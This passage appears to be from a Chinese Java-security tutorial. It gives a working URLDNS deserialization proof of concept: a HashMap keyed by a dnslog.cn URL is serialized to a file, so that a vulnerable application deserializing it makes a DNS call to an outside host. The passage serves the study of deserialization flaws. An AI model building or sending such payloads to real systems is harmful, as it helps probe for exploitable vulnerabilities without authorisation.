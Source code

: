 2）手工构造DNSLOG序列化数据：  
```
package com.nvyao.serializable;

import com.nvyao.bean.BadPerson;

import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class URLDNSDemo {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("/Users/liujianping/Downloads/URLDNS.ser"));
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        System.out.println("序列化成功！");
    }

    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        System.out.println(obj);
        System.out.println("反序列化成功！");
        return obj;
    }

    public static void main(String[] args) throws Exception {
        // 以下演示HashMap+URL链
        //序列化
        HashMap<URL, Integer> hashMap = new HashMap<>();
        URL url = new URL("http://9o1yaa.dnslog.cn");
        //为了不让这里发起请求，把url对象的hashCode改成不是-1
//        Class<? extends URL> urlClass = url.getClass();
//        Field hashCodeField = urlClass.getDeclaredField("hashCode");
//        hashCodeField.setAccessible(true);
//        hashCodeField.set(url, 1234);
//        Integer rs = hashMap.put(url, 1);
//        System.out.println(rs);
//        hashCodeField.set(url, -1);
        serialize(hashMap);

        //反序列化
//        Object o = unserialize("/Users/liujianping/IdeaProjects/java_code/SecVul/SerializableDemo/URLDNSDemo.txt");
//        System.out.println(o);
    }
}

```  
  